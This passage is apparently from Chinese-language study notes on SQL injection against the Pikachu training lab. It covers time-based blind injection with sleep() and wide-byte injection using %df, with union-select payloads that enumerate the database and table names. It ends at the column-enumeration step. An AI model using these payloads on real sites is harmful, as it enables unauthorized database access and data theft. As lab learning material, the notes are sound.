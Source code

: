 利用延时函数进行判断，不过感觉实际情况中干扰因素较多，可能会有误差

```
1' and sleep(3)#
```



```
1' and if((substr(database(),1,1))='p',sleep(3),null)#
```



### 宽字节注入

数据库编码与PHP编码为两个不同的编码

![image-20250123074733867](../../_media/image-20250123074733867.png)

抓包修改：

判断列数：

```
-1%df' order by 2#
```

爆破库名：

```
-1%df' union select 1,database()#
```

爆破表名：

```
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：
